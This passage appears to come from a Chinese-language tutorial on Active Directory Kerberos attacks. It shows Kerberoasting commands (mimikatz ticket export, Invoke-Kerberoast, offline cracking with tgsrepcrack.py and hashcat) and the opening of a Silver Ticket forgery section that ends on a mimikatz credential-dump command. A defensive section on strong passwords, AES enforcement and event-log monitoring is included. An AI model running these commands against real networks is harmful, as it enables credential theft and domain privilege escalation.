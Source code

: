1.mimikatz 导出

```
mimikatz.exe "kerberos::list /export" "exit"
```

执行完后，会在 mimikatz 同目录下导出 后缀为 kirbi 的票据文件  

![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaIUUbWWYDTIzcW0ACiapOJWB7zR1CoB1XsLPD3mwgCktqAjvhHGssl37w/640?wx_fmt=jpeg)

  
2.Empire 下的 Invoke-Kerberoast.ps1

```
Import-Module .\Invoke-Kerberoast.ps1;Invoke-Kerberoast -outputFormat Hashcat
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaI9gpofy4zIVqACdGetGLyuLBuOAxw4MAsAZdKBXxzTpiaYLfrzRz01LA/640?wx_fmt=jpeg)

  
**离线破解服务票据**  
1.kerberoast 中的 tgsrepcrack.py

```
python2 tgsrepcrack.py password.txt xx.kirbi
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8WZ2ZXgKbkfK6DEjegCZiaImCzsMmXibahvCBWAx4ytfxWxhGRUkYCcoScr1T67EvZw4QWRU0mCkhw/640?wx_fmt=jpeg)

  
2.hashcat  
将导出的 hashcat 格式的哈希保存为 hash.txt 文件，放到 hashcat 的目录下

```
hashcat -m  13100  hash.txt  pass.txt
```

**Kerberoast 攻击防范**  
确保服务账号密码为强密码 (长度、随机性、定期修改)  
如果攻击者无法将默认的 AES256_HMAC 加密方式改为 RC4_HMAC_MD5，就无法实验 tgsrepcrack.py 来破解密码。  
攻击者可以通过嗅探的方法抓取 Kerberos TGS 票据。因此，如果强制实验 AES256_HMAC 方式对 Kerberos 票据进行加密，那么，即使攻击者获取了 Kerberos 票据，也无法将其破解，从而保证了活动目录的安全性。  
许多服务账户在内网中被分配了过高的权限，且密码强度较差。攻击者很可能通过破解票据的密码，从域用户权限提升到域管理员权限。因此，应该对服务账户的权限进行适当的配置，并提高密码的强度。  
在进行日志审计时，可以重点关注 ID 为 4679(请求 Kerberos 服务票据) 的时间。如果有过多的 4769 日志，应进一步检查系统中是否存在恶意行为。  

### 2. 白银票据

在 TGS-REP 阶段，TGS_REP 里面的 ticket 的 enc-part 是使用服务的 hash 进行加密的，如果我们拥有服务的 hash，就可以给我们自己签发任意用户的 TGS 票据，这个票据也被称为白银票据。相较于黄金票据，白银票据使用要访问服务的 hash，而不是 krbtgt 的 hash，由于生成的是 TGS 票据，不需要跟域控打交道，但是白银票票据只能访问特定服务。但是要注意的一点是，伪造的白银票据没有带有有效 KDC 签名的 PAC。如果将目标主机配置为验证 KDC PAC 签名，则银票将不起作用  
要创建白银票据，我们需要知道以下信息：

• 要伪造的域用户 (这里我们一般填写域管理员账户)• 域名 • 域的 SID 值 (就是域成员 SID 值去掉最后的)• 目标服务的 FQDN• 可利用的服务 • 服务账号的 NTLM 哈希

  
这里使用白银票据伪造 CIFS 服务，该通常用于 Windows 主机之间的文件共享。  

1.mimikatz 获得服务账号的 ntlm hash

```
privilege::Debugsekurlsa::logonpasswords
```
